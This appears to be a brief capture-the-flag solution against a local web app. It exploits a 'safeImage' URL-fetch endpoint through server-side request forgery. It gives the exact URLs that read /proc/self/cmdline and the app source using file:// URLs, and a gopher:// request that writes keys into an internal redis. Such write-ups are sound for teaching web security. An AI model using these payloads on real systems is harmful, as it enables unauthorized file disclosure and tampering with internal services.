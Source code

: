 # Solution

1.  Check out the source.  

```
<!-- 
    
    TODO: 
        * Move redis to it's own server.
        * Update the docker server status page.
        * fix some "safeImage" rendering bugs
    -->
```

Now we know there is redis on the server.  We know this is inside of a docker container and we know there are a few bugs around `safeImage`.

2. view-source:http://localhost:5000/safeImage/?url=file:///proc/self/cmdline
3. You can see the application
  ```view-source:http://localhost:5000/safeImage/?url=file:///app/app.py```
4. You have arbitrary write 
  ```http://localhost:5000/safeImage/?url=gopher://127.0.0.1:6379/_set%20aaa%20test```
